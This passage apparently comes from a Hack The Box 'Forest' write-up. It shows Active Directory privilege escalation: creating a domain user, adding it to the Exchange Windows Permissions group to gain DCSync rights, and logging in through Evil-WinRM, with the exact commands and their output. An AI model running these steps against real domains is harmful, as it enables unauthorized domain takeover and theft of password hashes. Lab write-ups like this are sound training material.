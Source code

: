 In short, I should be able to escalate my permissions to a domain admin by:

1. Create a new user.
2. Add the new user to the `Exchange Windows Permissions` group.
3. On behalf of the new user, grant it the ability to syncrhonize the domain controller which should be sufficient to dump the NTLM hash for each user in the Active Directory forest. 

I went ahead and executed the plan above. As the `svc-alfresco` user:

```none
*Evil-WinRM* PS C:\users> net user r0kit h4ckit!! /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" r0kit /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" r0kit /add
The command completed successfully.
```

At this point, I logged into forest as the newly added `r0kit` user:

```none
kali@kali:~/htb/boxes/forest/loot$ ~/tools/evil-winrm/evil-winrm.rb -u r0kit -p 'h4ckit!!' -i 10.10.10.161

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\r0kit\Documents> whoami /all

USER INFORMATION
----------------

User Name SID
========= =============================================
htb\r0kit S-1-5-21-3072663084-364016917-1341370565-7603


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
HTB\Exchange Windows Permissions           Group            S-1-5-21-3072663084-364016917-1341370565-1121 Mandatory group, Enabled by default, Enabled group
```